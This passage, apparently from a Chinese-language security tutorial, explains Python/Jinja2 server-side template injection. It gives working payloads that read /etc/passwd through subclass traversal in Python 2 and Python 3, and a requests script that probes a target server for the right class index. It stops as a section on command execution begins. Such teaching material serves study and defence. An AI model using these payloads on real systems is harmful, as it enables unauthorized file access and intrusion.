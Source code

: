 ```
(39, <type 'member_descriptor'>)
(40, <type 'file'>)
(41, <type 'PyCapsule'>)
(42, <type 'cell'>)
(43, <type 'callable-iterator'>)
......
```

此file类可以直接用来读取文件：

```python
{{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}}
```

#### Python 3

使用file类读取文件的方法仅限于Python 2环境，在Python 3环境中file类已经没有了。我们可以用`<class '_frozen_importlib_external.FileLoader'>` 这个类去读取文件。

首先编写脚本遍历目标Python环境中 `<class '_frozen_importlib_external.FileLoader'>` 这个类索引号：

```
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().\_\_class\_\_.\_\_bases\_\_\[0\].\_\_subclasses\_\_()\["+str(i)+"\]}}"

    res = requests.get(url=url, headers=headers)
    if 'FileLoader' in res.text:
        print(i)

# 得到编号为79
```

所以payload如下：

```
{{().__class__.__bases__[0].__subclasses__()[79]["get_data"](0, "/etc/passwd")}}
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174654-236f65ba-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174654-236f65ba-bd3e-1.png)

### 利用 SSTI 执行命令

可以用来执行命令的类有很多，其基本原理就是遍历含有eval函数即os模块的子类，利用这些子类中的eval函数即os模块执行命令。这里我们简单挑几个常用的讲解。

#### 寻找内建函数 eval 执行命令

首先编写脚本遍历目标Python环境中含有内建函数 eval 的子类的索引号：
